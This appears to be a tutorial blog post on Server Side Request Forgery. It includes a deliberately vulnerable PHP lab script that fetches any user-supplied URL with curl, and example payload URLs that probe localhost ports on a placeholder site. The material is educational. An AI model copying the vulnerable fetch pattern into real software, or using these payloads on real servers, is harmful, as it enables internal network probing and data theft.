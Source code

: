 # SSRF
> Server Side Request Forgery (SSRF) is simply an attack where the server will make a request (act like a proxy) for the attacker either to a local or to a remote source and then return a response containing the data resulting from the request.

> We can say that the concept of SSRF is the same as using a proxy or VPN where the user will make a request to a certain resource, then the proxy or VPN Server will make a request to that resource, then return the results to the user who made the request.

From SSRF, various things can be done, such as:

- Local/Remote Port Scan
- Reading a Local File (using file://)
- Sensitive Data Disclosure (Like Server Ip Behind The WAF)
- Interacting with internal apps/service/network(For Example: http://localhost/admin or http://192.168.1.100/admin)
- RCE by chaining services on internal network
- Reading Metadata Cloud (AWS, Azure, Google Cloud, Digital Ocean, etc)
- Reflected XSS/CSRF

## Lab Setup

> For the use of the lab in this blog post, only use the simple script below (of course maybe the application in Real World is not as simple as this) and will be deployed on Digital Ocean.
```php
<?php
    $url = $_GET['url'];$curl = curl_init();
    curl_setopt($curl, CURLOPT_URL, $url);
    curl_setopt($curl, CURLOPT_RETURNTRANSFER,1);
    curl_setopt($curl, CURLOPT_TIMEOUT, 5);
    curl_setopt($curl, CURLOPT_CONNECTTIMEOUT, 5);$data = curl_exec ($curl);if(curl_error($curl)){
        echo curl_error($curl);
    }else{
        echo "<pre>" . $data . "</pre>";
    }
    curl_close ($curl);
?>
```
- Curl was chosen as the requestster for this blog post because curl supports various protocols, so it's good for learning purpose.
- requestster is a function or library that we use to fetch/request of the resource from input URL.
<br></br>

## Local/Remote Port Scanning
> The purpose of scanning a port is simply to be able to map running applications/services behind that port so the attacker can identify what applications/services are running on that port. This becomes very important if the attacker wants to interact and then perform querying to internal applications/services.<br></br>
Port scanning can be done using HTTP, HTTPS, GOPHER, or DICT protocols.

Payload:
```url
vulnerablesite.com/file/?url=http://127.0.0.1:22

vulnerablesite.com/file/?url=http://127.0.0.1:port
vulnerablesite.com/file/?url=http://localhost:port
vulnerablesite.com/file/?url=https://127.0.0.1:port
vulnerablesite.com/file/?url=https://localhost:port
vulnerablesite.com/file/?url=http://[::]:port
vulnerablesite.com/file/?url=http://0000::1:port
```
- If there is a Blind SSRF to find out whether the port is open or closed, you can pay attention to Content-length, Response Time, or HTTP Status Code.